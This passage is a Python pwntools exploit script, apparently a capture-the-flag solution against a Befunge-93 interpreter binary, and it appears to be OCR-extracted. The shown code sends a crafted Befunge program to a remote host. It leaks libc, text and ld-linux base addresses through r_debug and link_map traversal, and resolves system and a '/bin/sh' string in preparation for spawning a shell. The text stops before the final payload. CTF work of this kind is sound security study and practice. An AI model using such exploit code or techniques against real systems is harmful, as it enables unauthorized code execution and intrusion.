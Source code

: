 ```python exp_bef.py
if __name__ == "__main__":
    
    #LOCAL = True
    LOCAL = False
    
    # construct befunge-93 program
    preline = myexec("wc -l ./bbb | awk '{print $1}'")
    preline = int(preline)
    f = open("./bbb", "r")
    s = f.read()
    s += "\n"*(80-preline)
    
    r, LD = None, None
    if not LOCAL:
        r = remote(HOST, PORT)
        LD = ELF("/mnt/files/ld-linux-x86-64.so.2") # ubuntu 14.04 64 bit ld-linux
    else:
        r = process(ELF_PATH)
        LD = ELF("/lib64/ld-linux-x86-64.so.2")

    # send program
    r.sendlineafter("> ", s)
    r.recvuntil("> > > > > > > > > > > > > > > > > > > > > > > > ")

    # leak libc
    libc_main = leak_addr(-48, -2, "libc_main")
    libc_base, system, bin_sh = None, None, None
    # for local
    if LOCAL:
        libc.address += libc_main - libc.symbols['__libc_start_main']
        libc_base = libc.address
        system = libc.symbols['system']
        bin_sh = str_addr("sh\x00", libc)
    # for remote
    else: 
        libc_base = libc_main - 0x21e50
        system = libc_base + 0x0000000000046590
        bin_sh = libc_base + 0x17c8c3

    # leak text base
    text_base = leak_addr(-56, -9, "text_base")
    text_base -= 0xb00

    log.info("libc_base: "+hex(libc_base))
    log.info("text_base: "+hex(text_base))
    
    # leak r_debug
    r_debug = leak_addr(0, -7, "r_debug")
    log.info("r_debug: "+hex(r_debug))

    # traverse link_map structure & leak ld-linux.so base address
    link_map_addr = r_debug + 8
    link_map_text = leak_far_addr(link_map_addr, text_base, "link_map_text")
    log.info("link_map_text: "+hex(link_map_text))
    link_map_vdso = leak_far_addr(link_map_text+24, text_base, "link_map_vdso")
    log.info("link_map_vdso: "+hex(link_map_vdso))
    link_map_libc = leak_far_addr(link_map_vdso+24, text_base, "link_map_libc")
    log.info("link_map_libc: "+hex(link_map_libc))
    link_map_ld = leak_far_addr(link_map_libc+24, text_base, "link_map_ld")
    log.info("link_map_ld: "+hex(link_map_ld))
    ld_base = leak_far_addr(link_map_ld, text_base, "ld_base")
    log.info("ld_base: "+hex(ld_base))
    # leak __libc_stack_end in ld-linux.so, get stack address
```